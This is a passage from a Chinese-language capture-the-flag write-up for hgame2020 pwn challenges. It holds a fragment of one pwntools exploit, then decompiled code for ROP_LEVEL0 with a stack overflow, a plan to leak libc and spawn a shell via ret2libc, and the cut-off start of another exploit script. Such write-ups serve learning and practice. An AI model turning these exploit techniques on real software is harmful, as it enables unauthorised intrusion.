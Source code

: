 ```python
ru('name?\n')
sl('a'*31)
ru('shot!\n')
sl(str(0x6010e0-1))

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```



## ROP_LEVEL0

 - 题目描述：ROP is PWNers' romance
 - 题目地址：[ROP_LEVEL0](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week1_4/ROP_LEVEL0)
 - 考察点：ROP攻击
 - 难度：简单
 - 分值：150 
 - 完成人数：88

`ROP`攻击的入门级别题目，非常适合新手学习。反汇编分析程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  int v3; // eax
  char buf; // [rsp+0h] [rbp-50h]
  int v6; // [rsp+38h] [rbp-18h]
  int fd[2]; // [rsp+48h] [rbp-8h]

  memset(&buf, 0, 0x38uLL);
  v6 = 0;
  setbuf(_bss_start, 0LL);
  v3 = open("./some_life_experience", 0);
  *fd = v3;
  read(v3, &buf, 0x3CuLL);
  puts(&buf);
  read(0, &buf, 0x100uLL);
  return 0;
}
```

很明显的栈溢出，由于开了`ASLR`地址随机化保护，因此需要构造两个`ROP`链，第一个`ROP`链泄漏`libc`地址，第二个`ROP`用于 `ret2libc`，执行`system("/bin/sh")`获取shell。

至于`ROP`攻击，是比较基础的知识点，百度一下就能明白，这里就不赘述啦~

### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './ROP_LEVEL0'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
```